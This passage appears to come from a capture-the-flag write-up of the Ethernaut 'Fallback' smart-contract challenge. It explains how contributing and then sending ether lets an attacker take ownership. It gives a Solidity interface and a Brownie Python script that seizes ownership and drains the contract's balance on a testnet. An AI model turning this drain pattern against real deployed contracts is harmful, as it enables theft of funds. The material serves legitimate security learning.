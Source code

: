 - To have contributed Ether from the account address to the contract in the past.
- The function call needs to have some Ether value.

If these two conditions are met, the contract’s owner will change and an attacker could potentially take control over it, transferring all the funds available and reducing the contract’s balance to 0.

## Hacking the contract
There are different ways to exploit this vulnerability, but we are going to focus on using the [Brownie framework](https://eth-brownie.readthedocs.io/en/stable/), a development and testing framework for smart contracts targeting the EVM.

Our first step will be to get some test ether through a [Rinkeby faucet](https://rinkebyfaucet.com/).

After this, we will create a brownie project and define an interface. **Interfaces** are used to call functiosn from another contract in your newly deployed contract. For this interface we will declare the `owner()`, `contribute()` and `withdraw()` methods:

```solidity {lineos=table,hl_lines=[5,6,7],lineofstart=1}
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IFallback {
    function owner() external view returns(address payable);
    function contribute() external;
    function withdraw() external;
}
```

On the other hand, the proof of concept that will be used to drain the contract’s funds and become its owner :

```solidity {lineos=table,hl_lines=[4,6,8,10],lineofstart=1}
from brownie import accounts, config, interface, web3, Fallback

def attack(target, hacker):
    fallback = interface.IFallback(target)
    # to ensure that contributions[hacker] will be greater than 0
    fallback.contribute({'from': hacker, 'amount': '0.0005 ether'})
    # call 'receive' 
    hacker.transfer(to=target, amount="0.001 ether")
    print(f"Owner is hacker: {fallback.owner() == hacker.address}")
    fallback.withdraw({'from': hacker})
    print(f"Final contract balance: {web3.eth.getBalance(target)}")

def main(target):
		# Obtain the attacker's wallet address from the .env file
    hacker = accounts.add(config['wallets']['from_key'])
    attack(target, hacker)
```

Our main function starts using the `accounts.add` method, used to recover our account (where the funds are going to be transferred) using the private key specified in the `.env` file.
